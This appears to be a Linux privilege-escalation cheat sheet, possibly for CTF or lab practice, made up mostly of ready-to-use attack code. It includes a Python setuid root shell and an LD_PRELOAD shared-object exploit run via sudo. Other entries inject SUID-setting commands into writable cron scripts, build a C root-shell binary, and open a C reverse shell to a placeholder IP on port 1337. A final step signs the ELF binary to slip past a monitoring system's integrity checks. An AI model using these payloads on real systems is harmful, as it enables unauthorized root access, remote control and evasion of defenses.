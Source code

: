 

##  Privilege Escalation via Python

```python
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Spawns a root shell if the script is run with root privileges.

---

##  LD\_PRELOAD + sudo

### 🔹 Exploit example

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run_me_first() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

**Compile:**

```bash
gcc -fPIC -shared -o exploit.so exploit.c
```

**Run:**

```bash
sudo LD_PRELOAD=./exploit.so /usr/bin/ping
```

---

##  Crontab 

###  🔹Where to look:

- `/etc/crontab`
- `/etc/cron.*/*`
- Systemd timers (`systemctl list-timers`)

###  🔹Exploitation Steps:

1. **Identify a writable target**:

   - Check if you can edit a script or file executed by the cronjob.

2. **Inject malicious code**:

   - For example, add a reverse shell or privilege escalation payload to the script:
     ```bash
     #!/bin/bash
     chmod u+s /bin/bash
     ```
   - This will set the SUID bit on `/bin/bash`, allowing root shell access with:
     ```bash
     /bin/bash -p
     ```

3. **Wait for the cronjob to run** — Check the timing configuration of the cronjob. Crontab lines follow this format:

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7) (Sunday is 0 or 7)
# │ │ │ │ │
# * * * * *  user-name  command-to-be-executed
```
---

##  Crontab → SUID bash

```python
os.system('chmod u+s /bin/bash')
```

Then:

```bash
/bin/bash -p
```

> Runs bash with root privileges if the SUID bit is set.

---

##  SUID via C binary

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

> Compiles a binary that spawns a root shell when executed by a script with SUID.

---

## Reverse Shell via C binary (signed)

```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1", NULL);
    return 0;
}
```

> Compiles a binary that spawns a  reverse shell on port 1337 when executed by a root srcipt like cronjob

---
## ELF Signing Tool

To bypass signature verification by the monitoring system, we signed the ELF binary using:

🔗 [linux-elf-binary-signer GitHub repository](https://github.com/NUAA-WatchDog/linux-elf-binary-signer)

Sign the binary with:
```bash
./elf-sign sha256 key.pem key.pem monitor
```

This generates a signed ELF executable that passes integrity checks during the scan.
